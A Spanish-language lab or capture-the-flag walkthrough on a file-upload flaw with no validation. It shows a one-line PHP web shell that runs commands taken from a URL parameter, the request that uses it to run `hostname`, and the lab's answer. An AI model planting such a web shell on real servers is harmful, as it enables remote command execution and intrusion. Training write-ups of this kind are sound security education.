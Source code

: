 # Laboratorio: Absent Validation 📃

1. Visitamos la página web

<p align="center">
    <img src="./assets/Absent/01-Web.PNG" width=400>
</p>

---
2. Subimos un archivo `cmd.php` con el cual podremos ejecutar comandos

* **cmd.php**
```php
<?php system($_GET['cmd']); ?>
```

---
3. Ahora ejecutaremos el comando `hostname`
* **URL:** `http://[IP]/uploads/cmd.php?cmd=hostname`

**Output**
```
ng-760311-fileuploadsabsentverification-ajvog-54759766bd-gvq6k
```

* **Respuesta:** `fileuploadsabsentverification`
